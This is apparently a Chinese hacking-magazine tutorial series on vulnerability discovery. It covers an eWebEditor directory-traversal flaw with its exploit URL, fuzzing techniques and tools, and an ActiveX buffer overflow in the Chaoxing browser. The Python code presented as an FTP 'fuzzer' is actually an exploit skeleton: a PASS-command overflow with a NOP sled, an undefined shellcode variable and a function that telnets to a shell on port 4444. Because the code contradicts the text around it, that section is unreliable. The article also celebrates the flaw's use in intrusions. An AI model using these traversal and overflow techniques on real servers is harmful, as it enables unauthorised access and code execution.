总的来说，泄漏信息式的漏洞发掘主要依靠对目标程序接受的参数值进行修改，从而来触发程序漏洞。对于 PHP、Perl 语言编写的程序，我们可以直接寻找包含式漏洞，利用包含式漏洞来获取服务器信息。对于 JSP 以及 .NET 程序，则要注意查找代码中处理参数不当的地方，例如没有对外部参数进行数字判断直接作数学计算的。JSP 与 .NET 环境都属于比较安全的开发语言，但是在进行配置时，如果按照默认配置，则程序一旦出现错误，就会暴露出引起出错的代码，攻击者参考这些信息完全可以判断程序的实现流程，进而获得绕过限制攻击服务器的目的。

相对而言，对 ASP 程序中的信息泄漏式漏洞，我们主要集中于对暴库漏洞的测试。无论是一级目录还是有二级目录的网站程序，我们可以将任意一个“/”符号变为“%5c”，然后提交修改后的 URL 地址，观察返回结果来获得相关关键信息。

## eWebEditor远程目录遍历漏洞挖掘实例

eWebEditor 是一个非常不错的网页文本编辑器，使用方便，可移植性好，只需在 Web 程序中需要编辑器的地方插入类似 `<IFRAME ID="eWebEditor1" SRC="ewebeditor.asp?id=XXX&style=asai_office" FRAMEBORDER="0" SCROLLING="no" WIDTH="550" HEIGHT="350"></IFRAME>` 这样的一小段代码就可以使程序获得强大的文本编辑。所以很多网站管理程序、文章管理程序、论坛程序中都会使用 eWebEditor 来作为内容编辑器。eWebEditor 在负责处理文本效果的时候，也会同时进行上传文件的管理，因为文本内容中往往会被插入一些图片，这样可以使得网站内容更加充实，因此 eWebEditor 也集成了对这些上传的图片、文件进行管理。现在我们来分析一下 eWebEditor 的图文管理代码。

```vb
Call Header() '显示网页头部
Call Content() '显示网页内容
Call Footer() '显示网页底部

Sub Content()
  If IsObjInstalled("Scripting.FileSystemObject") = False Then
    Response.Write "此功能要求服务器支持文件系统对象(FSO)，而你当前的服务器不支持!"
    Exit Sub
  End If

  Call InitParam() '初始化传入参数
  Select Case sAction
    Case "DELALL"  '删除所有文件
      Call DoDelAll()
    Case "DEL"     '删除指定文件
      Call DoDel()
    Case "DELFOLDER" '删除文件夹
      Call DoDelFolder()
  End Select

  Call ShowList() '显示文件列表
End Sub

Sub ShowList()
  Response.Write "<p align=right class=highlight2>..."
  ' 省略其余代码
End Sub
```

```vb
"</form></p>" '这里是显示出一个列表，用户可以选择不同的目录来进行查看
If sCurrDir = "" Then Exit Sub
Response.Write "<table border=0 cellpadding=0 cellspacing=0 class=list1>" & ...
Dim sCurrPage, nCurrPage, nFileNum, nPageNum, nPageSize
sCurrPage = Trim(Request("page"))
nPageSize = 20
If sCurrPage = "" Or Not IsNumeric(sCurrPage) Then
  nCurrPage = 1
Else
  nCurrPage = CLng(sCurrPage)
End If

Dim oFSO, oUploadFolder, oUploadFiles, oUploadFile, sFileName
Set oFSO = Server.CreateObject("Scripting.FileSystemObject")
On Error Resume Next
Set oUploadFolder = oFSO.GetFolder(Server.MapPath(sCurrDir))
If Err.Number > 0 Then
  Response.Write "</table>无效的目录!"
  Exit Sub
End If
```

从这段代码我们可以看出，eWebEditor 主要是通过 ShowList 函数来显示指定目录下的所有文件，而 ShowList 函数则是根据用户选择的相应目录来显示文件的。并且，我们也能看出 eWebEditor 用来提供给用户选择的目录是通过“InitSelect(sStyleID, 'select ... from eWebEditor_Style order by S_ID asc', '选择...')”这样一个数据库查询语句来执行的，这个数据库查询将数据库中已经存在的关于目录的信息显示给用户，如图 9 所示。

初看起来，eWebEditor 好像是不允许用户随意改变查看目录的，但是我们接着往后看代码。

```vb
Function InitParam()
  sStyleID = Trim(Request("id"))
End Function
```


图 9

限制，导致我们可以从外部提交 dir 关键参数。如果我们指定 dir 参数为“../”，我们就可以访问当前目录的父目录，这样只要组合好 dir 与 id 参数，就可以获得遍历任意目录的权限。在浏览器地址栏中键入“http://192.168.0.1/ys/edit/admin_uploadfile.asp?id=14&dir=..”注意这里不用加最后一个“/”符号，因为程序会自动添加一个“/”，效果如图 10 所示。


图 10

```vb
' 获取用户在列表中选择好的目录代表id值
sUploadDir = ""
If IsNumeric(sStyleID) = True Then
    sSql = "select S_UploadDir from eWebEditorStyle where S_ID=" & sStyleID
    oRs.Open sSql, oConn, 0, 1   ' 根据id查询数据库
    If Not oRs.Eof Then
        sUploadDir = oRs(0)
        ' 获得该id在数据库中对应的根目录名
    End If
    oRs.Close
End If

If sUploadDir = "" Then
    sStyleID = ""
Else
    sUploadDir = Replace(sUploadDir, "\", "/")
    If Right(sUploadDir, 1) <> "/" Then
        sUploadDir = sUploadDir & "/"
    End If
End If

sCurDir = sUploadDir
sDir = Trim(Request("dir"))
' 由于每一个根目录下还会有子目录，所以程序允许外界指定目录名称
If sDir <> "" Then
    If CheckValidDir(Server.MapPath(sUploadDir & sDir)) = True Then
        sCurDir = sUploadDir & sDir & "/"
        ' 丝毫没有对dir参数进行任何过滤，直接组合成完整目录地址
    Else
        sDir = ""
    End If
End If
End Function
```

现在我们发现，原来从外表上看 eWebEditor 不允许用户指定目录，但却没有考虑目录的限制，导致我们可以从外部提交 dir 关键参数。

还记得这个漏洞当时我第一个写出来，可惜由于某些原因没有公开，后来被某人发于某杂志，就当小小一个插曲。但是这个漏洞当时确实帮助了不少搞入侵的朋友，这就从侧面反映出信息泄漏式的漏洞，在入侵中往往能够加快入侵速度，甚至是一击而中，所以无论作为什么样的 Web 应用程序，一定要注意这些“不起眼”的漏洞。像前面我举过的例子，那个 JSP 论坛其实非常不错，就是一个处理不当，导致我获得了遍历目录权限，然后下载了论坛源码，管理员盲目地换成 Discuz5 就好吗？要知道，Discuz5 有更严重的注入漏洞能够直接入侵服务器，真是得不偿失，大型网站尚且如此，更何谈其它网站。

至此，我们的 Web 型漏洞发掘技术就告一个段落了，从下一期我们将进入激动人心的应用程序漏洞发掘技术中去，什么缓冲区溢出漏洞、安全限制绕过漏洞、恶意修改漏洞等这些时常让我们耳濡目染的漏洞将期待着我们去学习。但是这里也要告诫各位读者一句，本着技术来学习，千万别干坏事，真正的黑客不是安全的打手，而是安全的守护神。

前置知识：无

关键词：漏洞，Fuzzing，Fuzzer


# 黑客漏洞发掘技术内幕系列之七

## Fuzzing技术的魅力

文／图 爱无言

正像瓦特为了解放人类双手提高生产率而发明蒸汽机一样，一些或者某位杰出的黑客在研究漏洞发掘技术的时候发明了 Fuzzing 技术。可以说这是一种非常快速而有效的发掘技术。Fuzzing 技术的思想就是利用“暴力”来实现对目标程序的自动化测试，然后监视检查其最后的结果，如果符合某种情况就认为程序可能存在某种漏洞或者问题。这里的“暴力”并不是说我们通常说的武力，而是说利用不断地向目标程序发送或者传递不同格式的数据来测试目标程序的反应。听起来很像前面我们在发掘 Web 漏洞时常常使用的变量自动提交技术，其实那种技术确实也属于 Fuzzing 的一种形式，但是我们却常常将 Fuzzing 技术用于测试软件的漏洞上。Fuzzing 也常常会针对软件的内部或者外部接口来进行测试，你可以把这些接口认为是某个程序的导出函数。

在软件测试中，Fuzzing 技术常常被用来发现公司软件产品中的问题，例如微软在对自己的软件进行测试时经常使用到 Fuzz-testing，而安全研究者则将其利用于对软件的安全分析中。因为很多时候，我们如果要寻找某个软件的漏洞，我们往往是没有这个软件的源代码的，这使得我们有点像在盲人摸象，更何况一个软件运行起来也许非常复杂，这样你就更难以寻找一个入口点来分析软件漏洞，发掘工作变得异常艰难。这个时候，Fuzzing 技术的出现突破了这个壁垒。

Fuzzing 技术不需要你对目标程序有十分详细的了解，只需要你明白目标程序有哪些功能，做这些功能的时候需要什么样的数据就可以，通过制造出这些数据，将它们传递给目标程序，观察目标程序的反应，从而推断出程序内部的实现构造，或者发现其漏洞。

论范围，Fuzzing 技术属于黑盒测试技术，但却包含了更多的内容，它可以是一个对软件接口的测试，也可以是一个对数据库的压力测试，或者是对软件输入检查的有效性测试。总之，Fuzzing 技术从另一个视角为我们打开了研究软件内部结构以及流程的窗口。

按照道理来说，如果很多软件公司在发布产品时，已经事先做过 Fuzz-testing，那么我们再去对这些软件进行 Fuzzing 时，应该不会再有什么收获，但事情往往相反。软件公司的测试人员，一般注重的往往是对软件源代码的测试，因为他们能够接触到这些代码，他们所要做的就是保证代码中没有出现非常明显的错误，保证代码编译出的程序能正常工作就行，这一点其实编译器本身就可以完成。如果要再进一步测试，那么就是功能性检查，看看软件是不是完成了其要实现的目的，然后去发布测试版本，等待用户测试后再修改。不全面的测试留给了程序隐藏漏洞的机会，于是我们就能利用再一次的 Fuzzing 去发现这些问题所在。

Fuzzing 技术最为关键的地方在于，你现在要进行的Fuzzing能不能发现目标程序那些已知的漏洞，如果不能，你就要考虑你的Fuzzing是否妥当。虽然你大可不必发现所有目标程序的已知漏洞。

Fuzzing测试的时候，要求你对你要测试的目标程序有一个准确的认识，不然你不知道如何进行Fuzzing。例如你的目标程序是一个文件处理软件，类似Word那样，此时你会怎样选择Fuzzing？当然，你肯定不会选择将Word在一秒钟打开1000000个来测试Word会有什么漏洞，那只会让你的电脑死机，并且我告诉你，Word会禁止这样做的。你要明白这个文件处理软件其最根本的目的在于处理文件，那么文件对它来说是非常关键的；如果在处理文件中出现任何问题，那对Word程序本身来讲是致命的，所以你要做的就是对文件的Fuzzing。你可以寻找不同的文件格式来测试这个文件处理软件，这也就是其中一种Fuzzing。而那些网络软件，你就应该注意数据包的处理，或者是协议的处理。不同的目标程序，你一定要准确定位到关键的部分，免得浪费自己宝贵的时间。

## Fuzzer的分类

Fuzzer就是指用来进行Fuzzing工作的工具。这里所列出的分类只是常见的一些，那些不常见的Fuzzer一般是根据具体测试的目标程序性质来决定的。下面列出的分类中，很多Fuzzer都已经被一些著名的黑客或者安全公司实现，其效果是得到认可的。如果你要利用Fuzzing来发掘软件漏洞，大可以使用这些著名的Fuzzer工具，它将帮助你实现想要的目的。

- 1) 文件型Fuzzer

文件型Fuzzer主要针对有文件作为程序输入的情况下的Fuzzing。像前面举过的例子，文件处理软件常常需要处理来自外部的文件。这些文件可以是可读的，也就是说文件内容一目了然；也可以是未公布格式的，如doc文件（虽然它的格式已经被研究得差不多了）。对于可读的文件，可以使用改变其内容的具体数值来进行Fuzzing，而对于未公布格式的，可以选择自己研究格式，按照格式的变化来进行Fuzzing；但是也可以直接进行Fuzzing测试，不去考虑格式具体的细节，而是利用随机或者逐个修改文件的某些字节来进行Fuzzing。这个时候它将为我们省下大量的时间与精力，因为自己研究未公布文件格式是一个非常需要时间与经验的事情。

Windows下出色的文件型Fuzzer是iDefense公司的FileFuzz，在Linux下则是SpikeFile。这两个文件型Fuzzer的原理是一样的，我们这里主要看看Windows下的FileFuzz的使用。

从http://www.iDefense.com下载FileFuzz安装到本机，默认是安装到C:\Program Files\iDefense\FileFuzz目录下，运行FileFuzz程序，如图1所示。

图1

程序最上方是一个列表框，在这里可以选择你要进行Fuzzing的目标程序，也就是Fuzzing哪一个文件处理程序。它的显示格式一般为：jpg-explorer.exe，前者代表的是作为输入的文件格式，后者是要被Fuzzing的目标程序。图1中显示的就是要Fuzzing explorer这个程序对jpg文件的处理。选择好被Fuzzing的目标程序后，FileFuzz程序的中间有两个“select”对应的行，第一行是选择一个正常的jpg文件作为参考文件。什么是参考文件？因为我们一般要Fuzzing的文件是一个未公布格式的文件，FileFuzz要进行Fuzzing必须要有一个正常的文件作为修改时能够比较的对象。有了这个对象，FileFuzz才有可能采用不同的修改方式来生成提交给目标程序的测试文件。

第二行的“select”是选择FileFuzz将要生成的测试文件放置的目的路径，这些测试文件我们称之为“Fuzz文件”。Fuzz文件就是被FileFuzz程序按照一定规律修改后的文件，这些文件将作为参数传递给目标程序，进行对目标程序处理文件能力的测试。中间靠下的地方是选择按照什么规律来修改参考文件，你可以选择按照逐字节的修改为0xFF，或者是随机，或者是深度式修改，或者是查找一定字符来替换。这里解释一下深度式修改，这种修改方式原理很简单，就是按照每十六字节逐渐递增修改参考文件。比如说在参考文件偏移0xe0的地方，修改字节为0xfe，则在偏移0xf0的地方修改为0xff，后面依次类推。

选择好以上项目后，点击“create”按钮，FileFuzz将按照规律生成Fuzz文件，然后点击“Execute”切换到另一个面板，如图2所示。这里的设置一般不必修改，直接点击图中间的“Execute”按钮就可以进行Fuzzing测试了，测试结果将在程序底部的窗口中显示出来。

图2

如果要选择自己的程序以及参考文件进行测试，可以编辑FileFuzz所在目录下的targets.xml文件。这个文件按照XML结构组织，对照已有的格式修改。修改后，就可以重新启动程序，在列表框中选择你的程序进行FileFuzzing了。

文件型Fuzzer主要是针对文件格式未知、不易分析的文件处理软件进行漏洞发掘测试的。它可以在发掘漏洞中，将获取未知文件格式的难度隐藏起来，使用随机或者逐字节修改的方式来暴力测试目标软件，避免了对文件处理软件漏洞发掘无从下手的情况。

- 2) 网络型Fuzzer

网络型Fuzzer是最为广泛的一种Fuzzer，因此这个方面的Fuzzer工具非常丰富。目标程序不同，发掘的漏洞形式也不同，使用的Fuzzer也就不同。对于Web应用型的程序，我们往往发掘的就是XSS、注入之类的漏洞。根据“基于Web漏洞的发掘技术”一文中提到的那些技术，我们完全可以做成一个Fuzzer工具来自动化测试，这也属于网络型Fuzzer的一种。

同样，对于网络环境来说，还有很多网络应用软件，如FTP服务软件、Email Server、NetPhone等。这些应用软件的漏洞不像Web应用程序那样，它们一般会出现溢出或者拒绝服务漏洞，这个时候我们就需要另外一种网络型Fuzzer——基于协议的网络型Fuzzer。对于任何网络应用程序，它们之所以能正常工作在网络环境中，就是利用了网络协议来进行通信。例如FTP Server就是利用FTP协议来完成文件传输的。协议就是网络应用程序中相互进行通信时要遵循的规则，只要知道这些协议的格式，按照格式来进行Fuzzing，我们同样也可以实现漏洞的发掘。

这里给大家重点介绍一个非常出色的协议式Fuzzer——SPIKE。它是immunitysec公司的Dave Aitel写的一个黑盒测试工具，开放源代码，用C语言写成，一般用于Linux平台。它的名气很大，曾排名到nmap-hackers邮件列表的Top 75 Security Tools中，而往往为人所知的就是SPIKE Fuzzer Creation Kit。SPIKE的运行原理其实就是制造一些特殊的数字或者字符串作为目标程序的输入，从而检查目标程序在处理这些异常数据时的健壮性。SPIKE的优点在于可以随意编辑所要进行测试的异常数据格式，这样就可以根据不同的协议格式来有效地针对目标程序进行Fuzzing。现在，SPIKE的最新版本是2.9。

SPIKE在测试的时候，使用了称之为“Block-Based Protocol Analysis”的基于块的协议分析。简单地讲就是将协议看作一个个数据块的某种组合拼装，这样避免了协议本身的复杂性，提高了通用性。使用者只需要简单地构造自己的Block就可以进行协议Fuzzing了。为了便于使用者使用，SPIKE提供了许多可以直接调用的函数，利用这些函数我们可以简单地构造出我们想要的Block，例如下面的一段代码：

```c
s_block_size_binary_bigendian_word("mydata");
s_block_start("mydata");
s_binary("01020304");
s_block_end("mydata");
```

简单的几行代码，我们就构造出一个名叫“mydata”的Block，并且给它赋值为“01020304”。使用者在定义这些Block时，可以编辑成SPIKE的脚本，脚本使用C代码写成。有了脚本，SPIKE就可以按照要求对目标程序进行Fuzzing测试了。

- 3) 接口型Fuzzer

接口型Fuzzer是利用应用程序提供的外部接口来进行Fuzzing的工具。应用性软件最根本的目的是提供给用户一个良好的完成某项工作的环境。这种环境有时单单靠软件本身实现的功能还不够完善，所以软件开发者会在某种程度上，将一些软件内部实现某项功能的部分以接口的形式对外敞开，以便用户能根据自己的要求来满足目的实现。这个方面最好的例子莫过于Windows下的DLL库文件（其实Linux系统下也有库文件，其作用与Windows下的库文件一致）。DLL库文件是一种将某种功能的具体实现封装起来，然后只向外提供一个简单方便的可调用函数。使用者可以将这个库文件导入后，利用其提供的可调用函数接口来实现自身需要。这样做的好处是，将复杂的实现流程隐藏起来，用户或者二次开发人员只需要在自己的代码里添加简单的一两行调用代码就能实现想要的功能，并且保证了原始代码的安全性，防止泄漏。举一个例子，如果你想在Windows下使用VC6编写出一个具有透明样式的对话框，你必须要去下载最新的SDK，或者使用非常繁杂的代码来实现；但是我们发现在Windows系统DLL文件“user32.dll”中有一个函数SetLayeredWindowAttributes可以帮助我们实现窗口透明的功能。

于是我们可以这样写一段VC++代码来实现我们想要的功能：

```cpp
(1) typedef BOOL (WINAPI *lpfnSWA)(HWND hWnd, COLORREF crKey, BYTE bAlpha, DWORD dwFlags);
(2) lpfnSWA SWA;
(3) HMODULE hUser32 = LoadLibrary("user32.dll");
(4) SWA = (lpfnSWA)GetProcAddress(hUser32, "SetLayeredWindowAttributes");
```

代码第一行是一个SetLayeredWindowAttributes函数原型的表达，第二行就是定义一个函数指针，以便我们后面能引用需要的SetLayeredWindowAttributes函数。代码的第三行是一个对user32.dll库文件的引入，只有先引入这个库文件，我们才能够在第四行中利用GetProcAddress函数获得user32.dll中SetLayeredWindowAttributes函数的地址指针。这样我们就可以使用这个函数指针来达到我们想要实现透明窗口的目的了。

从这个例子中可以看到，SetLayeredWindowAttributes函数一定是user32.dll文件的一个外部可调用函数，我们称之为“导出函数”。既然我们要对这些导出函数进行Fuzzing，那么如何才能知道一个库文件中哪些函数是导出函数，哪些又不是呢？这里推荐读者使用VC6自带的Dependency Walker，这个工具可以非常方便地查看Windows下所有文件的导出函数，如图3所示。从中我们可以清楚地看到user32.dll文件的所有导出函数，其中就有SetLayeredWindowAttributes函数。有了函数名称以及地址，就可以进行Fuzzing了，不过最好还要有函数的参数类型，这可以帮助我们更准确地完成Fuzzing。

## Fuzzer的工作原理

当我们编写一个Fuzzer工具的时候，常常会从两个方向去实现。一种是不断地对目标程序进行随机数据或者某种类型格式的数据发送、输入。这种Fuzzer在使用中，往往会因为所发送的数据不符合目标程序要求的格式，而直接被程序拒绝，不能够深入进行程序内部漏洞的发掘，效率低下。还有一种就是建立在“可能性覆盖”理论模型上的Fuzzer。“可能性覆盖”理论是指将程序所有可能接受的外部数据，经过抽象划分为不同的类型，然后从每个类型中选取一个测试实例，使用这些测试实例进行对程序的Fuzzing检查。为了便于理解，我们这里看一个例子。

假设某个应用软件是我们测试的目标程序，我们称其为A。A可以接收两个整数型的数字作为参数，我们称这两个参数一个为B，一个为C，然后A对这两个参数进行一系列运算后返回一个数值给用户。根据可能性覆盖原理，我们来分析这个A的所有可能性输入。首先，A的参数是两个，那么这里就出现了可能性判断：如果我们传递给A的参数数目少于两个或者多于两个呢？我们可以用字符来代表这两种可能性，少于两个参数的为Low，多于两个的为More。接着分析，我们知道这两个参数B和C必须是整数型的数字。那么如果一个参数是整数，另外一个参数是小数呢？或者两个参数都是小数？又或者两个都是字符串型的呢？这种组合太多了，我们把这些可能性全部画成一张表，如表1所示。

| 参数B | 参数C | 标记值 |
|---|---|---|
| 整数 | 整数 | II |
| 整数 | 小数 | ID |
| 整数 | Long | IL |
| 整数 | 字符串 | IC |
| 小数 | 整数 | DI |
| Long | 整数 | LI |
| 字符串 | 整数 | CI |
| 小数 | 小数 | DD |
| 小数 | Long | DL |
| 小数 | 字符串 | DC |
| Long | 小数 | LD |
| Long | 字符串 | LC |
| Long | Long | LL |
| 字符串 | 小数 | CD |
| 字符串 | Long | CL |
| 字符串 | 字符串 | CC |

表1

从这个表格我们可以看出，关于A程序的输入有16种可能性的组合，我们应该从这16个组合中，对每一个组合选取一个实例，也就是找一个代表用来进行Fuzzing。例如对组合II，我们可以选择实例为(2,900)，这代表了B是2，C是900，这样代表了两个参数都为整数的可能性。下面是组合ID，我们就选择(50,8.21)，这样参数B为50一个整数，C为8.21一个小数，符合可能性组合ID，下面的组合可以依此类推。

现在，我们已经组合出了18种可能性（加上前面的Low和More），我们把这些可能性选取好的实例编到Fuzzer中去，然后就可以让Fuzzer从中依次取出一个实例，对目标程序A进行Fuzzing了。

如同我们在上面看到的，“可能性覆盖”理论是一个比较科学的理论模型，它不再是盲目地对目标程序进行随意数据发送、输入，较好地符合了程序的要求。但是我们也能发现，如果我们面对的是一个对输入要求非常复杂的程序，我们将很难将它的所有可能性组合列举出来；或者你即使列举出来，那这些组合也将异常庞大。更多的时候，我们之所以知道程序的输入要求，是因为我们有关于程序的一些帮助文档，甚至是源代码。但是对于一个没有任何相关信息的程序，我们就很难入手来判断出它的输入要求，更谈不上列举可能性组合。

利用随机数据进行Fuzzing的Fuzzer，往往在很多时候会发现许多“可能性”组合Fuzzer发现不了的漏洞。这是因为随机数据型Fuzzer可以是一个永无休止的Fuzzing过程，而这些随机数据很可能就会组合成一个意想不到的数据，使得目标程序崩溃或者出现漏洞。所以我们在做Fuzzing测试的时候，可以根据具体环境需要来进行发掘工作，因为随机数据型Fuzzing也许将会持续几天甚至是几周。

如果说上面讲的两种编写模式是Fuzzer的主体思想，讲到了Fuzzer应该如何对目标程序进行Fuzzing，那么我们还需要面临一个更大的困难，就是我们怎样才能知道程序出错了或者出现异常了呢？总不能让我们整天坐在屏幕前，用眼睛盯着程序看吧？Fuzzer中有一项功能，就是为了能节省人的体力消耗，让Fuzzer自动收集目标程序出错的信息，或者记录什么时间、什么状况下，目标程序接受了什么数据后异常了。有了这些记录，才能方便我们更好地进行下一步准确分析和定位漏洞的性质和出错原因。

要想实现Fuzzer对目标程序的运行情况监视，我们可以采用很多办法。对于网络型的程序，我们可以监视其返回数据情况，或者是不是出现了“The Connection Closed By Remote”这样非常明显的出错信息。对于本地程序，我们有很多选择，可以查询系统日志，因为系统日志往往记录下了系统中所有发生的异常事件。或者监视一些用来显示警告、出错的函数是不是被目标程序调用。甚至在Windows下面，还可以直接利用Fuzzer程序在Fuzzing目标程序后，自动查看系统是不是多了一个叫做DW20的进程名称，它就是我们在Windows下使用某些软件或者系统出错后，常常会看见的“是否上报微软公司”的对话框程序。

## 如何编写出属于自己的Fuzzer

有了对Fuzzer工作原理的认识，我们可以利用已知的知识来编写自己的Fuzzer。有的时候，虽然那些已经公开的Fuzzer工具非常出色，但却不能很好地适合你想要发掘的目标程序，或者有时会太过于专业，而我们要测试的目标程序其实很简单。这个时候，最好的选择就是针对目标程序，编写自己的Fuzzer。

编写Fuzzer前，要先做好“热身运动”，整理好现在知道的所有关于要进行Fuzzing的目标程序信息。如果你的目标程序是一个网络软件，那么就要考虑网络数据的发送，这个数据是什么格式，是UDP还是TCP协议，端口号是多少；如果目标程序是本地的一个文件处理软件，那么这个软件能处理哪些格式的文件，一次处理多少个，这些都要努力去了解，不然将给你编写Fuzzer带来很大的困难。有了这些信息，你就要选择Fuzzing的模式了：是准备随机Fuzzing，还是要利用可能性覆盖来Fuzzing。若目标程序的信息比较丰富，那么尽可能选择可能性覆盖模型来Fuzzing，因为这将提高发掘漏洞的几率；反之，如果不太了解目标程序，并且有很多的时间来做Fuzzing这件事，那么就可以选择随机Fuzzing。

做完上面的“热身运动”，我们就可以进入实际编写过程了。为了能让读者更好地理解这个过程，有一个直观的印象，这里我选择编写一个网络型Fuzzer的全部过程作为实例讲解。

我们要进行Fuzzing的目标程序是一个FTP Server，所以首先考虑到FTP协议的细节。FTP协议主要利用不同的命令来进行数据交换，命令格式一般为：command [data] [data] ...，其中command代表具体命令名称，data代表命令要操作的数据。例如“del file.txt”这个命令，其中del指的是命令名称，即删除文件命令，而后面的file.txt就是要被操作的具体数据，也就是这里要被删除的文件名。你可能会注意到[data]字符上，我们加上了一个方括号，这代表着在FTP协议中有些命令是单独的，它们不需要在命令名称后面跟上操作数。所以这种单独的命令对我们在做FTP Server Fuzzing的时候，由于没有可以任意控制的数据，这些命令将不作为我们要测试的对象。非单独的FTP协议命令名称有很多，我们这里把其中常见的列在表2中。

| 命令 | 格式 | 意义 | 命令 | 格式 | 意义 |
|---|---|---|---|---|---|
| USER | USER xxx | 登录FTP的用户名 | PASS | PASS xxx | 登录用户的密码 |
| PUT | PUT xxx | 向服务器上传xxx | GET | GET xxx | 从服务器上下载xxx |
| DEL | DEL xxx | 删除xxx | RENAME | RENAME xx yy | 将xx重命名为yy |

表2

这里所有的命令都是需要一个或者两个操作数，这样就有利于我们控制操作数来进行Fuzzing了。有了对FTP协议的了解，我们下一步工作是要选择采用可能性覆盖式的Fuzzing方式，还是选择随机数据式的Fuzzing。我们来分析一下，当前的这个FTP Server主要接受的外部参数就是命令+数据，命令是固定的，就是表格中显示的那些，数据则没有任何规律可言。只是有些命令需要两个操作数，有些只需要一个操作数。我们无法分析操作数可能会是什么格式，并且这些操作数对于命令来说就是一个字符串，既然是字符串就没有什么可能性组合的存在，只有长度以及格...式的不同。假设我们使用可能性覆盖，我们只能选择对操作数个数的可能性进行组合，而对于单一操作数的命令，个数可能性组合却没有任何意义。因此，我们这里最好的选择是使用随机型的 Fuzzing，对于两个操作数的命令和一个操作数的命令，都是对操作数的长度以及格式的随机选取来进行 Fuzzing，这样就能充分地将各种情况全部测试完毕。

确定好使用随机 Fuzzing 后，我们必须要将这种随机组合表示出来，让其成为一个库，方便程序自动生成后发送给目标程序。我们看到命令名称是不变的，那么主要就是操作数，操作数的随机又分为两种，一种是长度随机，一种是格式随机。这样我们就可以将命令名称直接固化在要发送的随机测试组合中，只对操作数进行随机生成，如图4所示。


对于长度随机，我们可以编写一个产生随机长度字符串的函数，在调用时产生随机长度的效果。对于格式随机，我们可以将一些常见或者不常见的格式列举几条，组成一个数组，在调用时依次调用即可。但是这里要注意一个问题，FTP 命令除了 USER、PASS 以外，都要建立在用户登录 FTP Server 以后才能使用，并且有些命令是必须要有使用权限才能正常使用的。所以在测试目标 FTP Server 时，我们最好建立 3 个不同的账户：一个是匿名用户 anonymous，一个是普通权限的用户，还有一个是高权限的用户。对于匿名用户，可以直接打开 FTP Server 允许匿名登录的选项，我们这里的测试目标程序默认是打开的。而利用普通权限用户进行测试，可以发现 FTP Server 在一般情况下，哪些命令会触发漏洞；高权限的用户则是测试在没有太多限制情况下，FTP Server 存在哪些漏洞。这样有利于区分漏洞触发的条件，能更好地给漏洞定性。

有了思想，我们剩下的工作就是具体的编码工作了。对于这种简单的 Fuzzing，我们不必采用那些高级语言编写，使用简单的脚本语言完全可以满足我们的需要，下面是用 Python 脚本对这个网络型 Fuzzer 实现的关键代码。

```python
#!/usr/bin/python
import os
import sys
import time
import struct
import socket

def ConnectRemoteShell(target):
    connect = '/usr/bin/telnet ' + target + ' 4444'
    os.system(connect)

def ExploitFTP(target):
    sockAddr = (target, 21)
    tsock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    tsock.connect(sockAddr)
    response = tsock.recv(1024)
    print response
    payload = 'A' * 2553
    payload += '\x90' * 83
    payload += shellcode
    user = 'USER anonymous\r\n'
    tsock.send(user)
    response = tsock.recv(1024)
    print response
    passwd = 'PASS \x2c' + payload + '\r\n'
    tsock.send(passwd)
    response = tsock.recv(1024)
    print response

if __name__ == '__main__':
    try:
        target = sys.argv[1]
    except IndexError:
        print 'Usage: %s <target>' % sys.argv[0]
        sys.exit(-1)
    ExploitFTP(target)
```

## Fuzzing技术的实际使用

### 1) 超星浏览器 LoadPage 函数溢出实例

超星浏览器是一款国内用户量较大的文件浏览器，主要支持对 PDG 文件的阅读使用。为了能够结合网络，方便用户直接在浏览器中阅读网络上的 PDG 文件，超星安装时在系统中注册了一个 ActiveX 控件，这个控件的提供者为 pdg2.dll 文件，位于系统根目录下。对于 ActiveX 控件，我们可以使用接口型 Fuzzer 进行 Fuzzing 测试，所以我们完全可以利用已有的接口型 Fuzzer 工具 COMRaider，进行漏洞发掘工作。

打开 COMRaider，点击右上角的“Start”按钮，默认是第一项，也就是“Choose ActiveX dll ocx file directly”，意思是直接选择你要 Fuzzing 的目标文件，包括 DLL 以及 OCX 文件。点击 next，出现文件选择对话框，我们直接定位到 system32 文件夹下的 pdg2.dll 文件，点击 next 后会出现一个分隔开的窗口，如图5所示。


图5

显示的就是我们要 Fuzzing 的 pdg2.dll 文件的所有外部接口，其中带有小手的图标代表它是 pdg2.dll 的属性，而其他的图标就代表 pdg2.dll 的方法。可以看到 pdg2.dll 的外部方法是很多的。拖动滚动条，找到 LoadPage 这个方法，然后用鼠标右击，出现如图6所示的界面。右击后可以看到一个新的菜单，我们主要注意最上面的两项，分别是 Fuzz 选择的这个成员、Fuzz 整个库。我们先看看这两个菜单选项的区别：“Fuzz 选择的这个成员”，很好理解，就是对你选择好的方法或者属性进行 Fuzzing；而“Fuzz 整个库”则是指对该 ActiveX 控件的所有方法以及属性进行 Fuzzing。一般情况下我们选择“Fuzz 选择的这个成员”，因为这样可以更有针对性。点击“Fuzz member”选项后，程序将自动生成 Fuzz 文件，我们这里直接可以点击 next，随后程序出现开始准备 Fuzzing 的窗口，这里的一些选项不必修改，直接点击“BeginFuzzing”，程序就将开始自动进行 Fuzzing 工作。


图6

Fuzzing 结束后，程序会自动显示结果，一般是告诉你有多少次出错、多少次异常。如果被 Fuzzing 的目标程序存在漏洞，COMRaider 将会在中间位置显示出错的情况，如图7所示。


图7

我们看到 COMRaider 提示出一个对“41414141”地址的访问错误，我们双击这一行，COMRaider 会用文字形式告诉我们这个错误发生时，各寄存器以及堆栈中的情况。从图8中我们清晰地看到，此时 EIP 寄存器被修改成了“41414141”。拉动滚动条，又会发现此时堆栈中全部都是“41”。此时我们就明白了，这个时候超星浏览器已经发生了典型的缓冲区溢出现象。但是我们能够完全控制这个溢出时的流程吗？这个溢出究竟又是怎么触发的呢？此时，我们可以选择点击 COMRaider 上方窗口中出现的任意一项，右击它选择“view file”，如图9所示，COMRaider 将引发超星出错的那个 Fuzz 文件按照 XML 脚本的形式显示出来。


图8

我们注意看 `<script></script>` 这对标签中的代码，可以发现正是 LoadPage 的第一个参数被传递了一个超长的字符串，导致超星发生了严重的缓冲区溢出，并且由于这个超长串中包含了可以控制溢出时 EIP 寄存器的值“A”，由此我们完全可以控制超星在溢出时的流程，使其执行任意代码，从而导致一个溢出漏洞的产生。之后剩下的工作就是将这个 Fuzz 文件转换成普通的网页文件，拿到网站上，进行更为详细的跟踪测试，以便定位溢出时的控制方法。


图9

